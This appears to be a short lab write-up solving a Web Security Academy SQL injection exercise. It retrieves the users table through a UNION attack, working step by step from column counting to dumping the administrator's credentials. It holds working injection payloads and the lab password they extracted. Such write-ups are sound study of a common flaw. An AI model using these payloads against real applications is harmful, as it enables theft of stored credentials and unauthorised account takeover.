 # SQL injection UNION attack, retrieving data from other tables

1. SQLi: 
    - product category filter.
    - The database contains a different table called users.
    - columns called username and password.
2. Goal:
    - retrieves all usernames and passwords.
    - log in as the `administrator` user.

### Analysis
- Website target: `https://0ad000e50462a701804d8a9700d2004f.web-security-academy.net/`
- Use Burp suite.
- `ctrl + u`: URL encode.

1. Find the number of columns.
```sql
' order by 2--
'-- I found 2 columns.
```

2. Find data type of these columns.
```sql
' union select 'a', 'a'--
'-- All of columns are text.
```

3. Find the version of database.
```sql
SELECT version() --PostgreSQL
' UNION SELECT version() ,NULL--
'-- PostgreSQL 12.16
```

4. Output the table name of this database.
```sql
SELECT * FROM information_schema.tables

' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables--
'-- Table name: users.
```

5. Output the usernmae and password. 
```sql
--We know the column names.
-- username and password.

' union select username, password from users--
'-- username: administrator
-- password: wsubf3g41mj6qfcyk53k
```
